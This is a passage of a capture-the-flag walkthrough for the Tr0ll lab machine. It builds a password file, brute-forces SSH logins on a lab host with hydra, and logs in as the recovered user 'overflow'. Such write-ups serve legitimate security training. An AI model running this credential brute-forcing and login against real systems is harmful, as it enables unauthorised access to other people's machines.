 The password may be the name of the file **Pass.txt**.

![](/assets/images/tr0ll1/screenshot-6.png)

We copy **Pass.txt** to a file.

```console
root@kali:~$ echo "Pass.txt" > pass.txt
```

We brute force again and find the password for the user **overflow**.

```console
root@kali:~$ hydra -L users.txt -P pass.txt ssh://192.168.179.182
...
[22][ssh] host: 192.168.179.182   login: overflow   password: Pass.txt
...
```

## Exploitation
### Access via SSH

We login via SSH as user overflow.

```console
root@kali:~$ ssh overflow@192.168.179.182                  
overflow@192.168.179.182's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Aug 13 01:14:09 2014 from 10.0.0.12
Could not chdir to home directory /home/overflow: No such file or directory
$ bash 
overflow@troll:/$
```
